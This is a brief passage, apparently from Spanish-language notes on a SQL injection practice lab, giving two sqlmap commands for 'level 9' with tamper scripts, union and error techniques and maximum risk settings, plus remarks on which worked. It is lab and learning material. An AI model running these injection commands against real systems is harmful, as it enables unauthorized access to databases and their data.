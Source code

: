 > \[Note] Diferentes versiones sqlmap pueden requerir diferentes opciones/flags. Por ejemplo, en relación con el nivel 9:

```bash
sqlmap -u 'http://9.sqli.labs/' -p user-agent --tamper=chardoubleencode --technique=U --banner --level=3 --risk=3

or

sqlmap -r 9.sqli.labs.For.sqlmap --banner --tamper=chardoubleencode --dbms mysql --batch --union-char=els  --technique=E

# The only one that worked
# lvl 10 didnt work either
```
